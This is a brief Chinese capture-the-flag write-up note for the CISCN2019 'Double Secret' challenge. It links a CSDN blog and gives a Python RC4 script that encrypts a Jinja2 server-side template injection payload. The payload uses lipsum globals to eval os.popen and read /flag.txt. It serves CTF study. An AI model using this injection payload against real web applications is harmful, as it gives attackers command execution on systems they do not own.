

# WP
[[CISCN2019 华东南赛区]Double Secret_bfengj的博客-CSDN博客](https://blog.csdn.net/rfrder/article/details/114436926)
# 知识点
`RC4`加密<br />因为`RC4`是通过异或加密且为对称密码，所以`RC4`的加密与解密算法相同
```python
import base64
from urllib.parse import quote
def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    cipher = "".join(res)
    print("%s" %quote(cipher))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
rc4_main("HereIsTreasure","{{lipsum.__globals__.__builtins__.eval(\"__import__('os').popen('cat /flag.txt').read()\")}}")

```
或者使用`cyberchef`<br /><br />`SSTI`
